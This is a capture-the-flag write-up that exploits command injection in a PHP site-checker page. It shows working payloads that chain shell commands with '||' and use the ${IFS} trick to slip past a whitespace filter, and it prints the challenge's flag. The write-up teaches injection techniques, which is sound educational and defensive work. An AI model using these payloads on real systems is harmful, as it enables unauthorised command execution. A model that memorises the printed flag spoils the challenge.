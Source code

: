 # Social Checker

## Problem Text

_Social Checker - check if your favourite social media site is online!_

```text
http://46.101.107.117:2103
```

___
Social Checker is a challenge that requires participants to exploit a PHP web application running on a server.

Upon first loading the link, we are taken to a web page with a drop down menu to select a given site to check.

Let's look at the HTML:

```html
<body>
        <h1>Social Checker</h1>
        Check if your favourite social media site is online!<br/><br/>
        <select id="url">
          <option value="twitter.com">twitter.com</option>
          <option value="facebook.com">facebook.com</option>
          <option value="linkedin.com">linkedin.com</option>
          <option value="instagram.com">instagram.com</option>
          <option value="pinterest.com">pinterest.com</option>
          <option value="tumblr.com">tumblr.com</option>
          <option value="wechat.com">wechat.com</option>
          <option value="whatsapp.com">whatsapp.com</option>
        </select><br/><br/>
        <input id="submit" type="submit" value="Check it!" onclick="javascript:doCheck();"/><br/><br/>
        <div class="box" id="result"></div>
    </body>
```

From this, we can see that when the select button is clicked, it calls a JavaScript `doCheck()` function embedded in the HTML. This function is defined earlier in the source:

```javascript
function doCheck() {
    $.post("check.php", {"url": $("#url").val()}, function(data) {
    $("#result").text(data);
    });
}
```

Turns out this function is just a stub that sends a POST request to a PHP program that actually does the heavy lifting. This function also sends the selected url in JSON format.

One of the many techniques that a hacker can use when exploiting a PHP script is command injection. PHP scripts often call system functions and pipe their input back for processing before sending it back to the user. These system functions are called using the `system()` function much like in C. This function accepts shell syntax, which means if the input is not sanitized before being passed to `system`, we can inject our commands using shell syntax to chain the commands together.

So how do we send these commands? Through the url field in the POST data. We can do this by tampering with the browser dev tools (I use Firefox). When we look at the request payload, we see this:

`url=twitter.com`

The JavaScipt function directly sends the url to be checked as a raw string. This means we can manipulate the string being sent and see what happens. Let's try sending something invalid. The script should blindly substitute it in and whatever shell command it runs will throw back an error, then we can see what the PHP script is using to check the sites.

```text
url=ls
```

So here instead of sending a URL, we send a shell command. We get this response:

```text
nc: bad address 'ls'
```

Aha! Turns out this PHP script uses netcat to check the site availability. Since we know that `system()` accepts valid shell syntax, let's try to chain commands together. We send this:

```text
url=; ls
```

Here we assume that the string passed to netcat becomes `nc; ls`.
Since `nc` fails due to invalid input, `ls` gets executed instead and its output gets sent back to us.

We get this response:

```text
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

```text
:(
```

Alright, it looks like the script is filtering out certain characters, so we need to find a workaround. Since `nc` fails, instead of using unconditional chaining, we can use the Bash OR operator. This is used to chain commands together, and causes the second command to be executed only if the first command fails. For example:

```text
$ rm thisfiledoesnotexist.txt || echo "Hi!"

rm: cannot remove 'thisfiledoesnotexist.txt': No such file or directory
Hi!

$ touch thisfilenowexists.txt || echo "Hi!"
# no output because the first command succeeded
```

So, the string we send is now this:

```text
url=instagra || ls
```

This should resolve to `nc instagra || ls` as the string passed to `system()`, so that when the first command fails, `ls` gets executed.

And this was the response:

```text
nice try - www.youtube.com/watch?v=a4eav7dFvc8
```

```text
D:<
```

Alright, so it looks like either whitespace or the pipe character is also banned. Let's try it without whitespace and see what happens:

We send:

```text
url=instagra||ls
```

And we get this response:

```text
ls: 80: no such file or directory
```

Nice! Pipe characters are accepted. Also it turns out the PHP script adds the port number after the input (port 80), so `ls` took that as one of its arguments. This means we have to pass `ls` the directory as an explicit argument.

But now we have a problem. Whitespace is the main separator for command line arguments, and without it we cannot send the correct commands.

This is where shell syntax comes in handy once again. Bash has an inbuilt variable called IFS, which is used internally by the shell to split a raw input string into commands and arguments. This can be invoked by the user like any other variable. By default, this variable is a whitespace character.

So, this means this sort of thing can work:

```text
$ echo${IFS}hello

hello
```

This means that we can send a string that doesn't contain any whitespace and thus won't get rejected by the script, but when the command gets passed to Bash via `system()`, it gets split correctly. Let's give it a try:

```text
url=insta||ls${IFS}$PWD
```

Breakdown:

- insta - Send a string that causes `nc` to fail
- `||` - Since `nc` fails, chain the command we want to execute using the condtional operator
- `ls` - the `ls` command
- `${IFS}` - the IFS variable to allow Bash to separate the arguments correctly
- `$PWD` - The present working directory

We get this response:

```text
ls: 80: No such file or directory
/htdocs:
bg.jpg
check.php
flag.txt
index.php
```

Boom! We now know the contents of the directory, and the file is staring at us right in the face. All we have to do now is send the correct command:

```text
url=insta||cat${IFS}flag.txt
```

Response (with error messages removed):

```text
he2021{1ts_fun_t0_1nj3kt_k0mmand5}
```

___
*Flag:* `he2021{1ts_fun_t0_1nj3kt_k0mmand5}`
